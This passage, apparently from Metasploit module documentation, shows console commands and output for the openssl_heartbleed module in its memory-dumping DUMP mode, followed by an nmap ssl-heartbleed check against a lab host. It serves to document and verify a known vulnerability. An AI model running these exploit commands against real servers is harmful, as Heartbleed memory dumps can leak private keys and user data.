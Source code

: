 ```
msf5 > use auxiliary/scanner/ssl/openssl_heartbleed
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set rhosts 222.222.2.222
rhosts => 222.222.2.222
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set action DUMP
action => DUMP
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > repeat -n 10 run

[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
## Confirming using NMAP

Utilizing the [ssl-heartbleed](https://nmap.org/nsedoc/scripts/ssl-heartbleed.html) script, we can replicate
the `SCAN` action.

```
# nmap -p 44330 --script ssl-heartbleed 222.222.2.222
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-16 17:52 EDT
Nmap scan report for ubuntu1804.romain (222.222.2.222)
Host is up (0.0017s latency).

PORT      STATE SERVICE
44330/tcp open  unknown
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt
MAC Address: 00:0C:29:AA:AA:AA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```
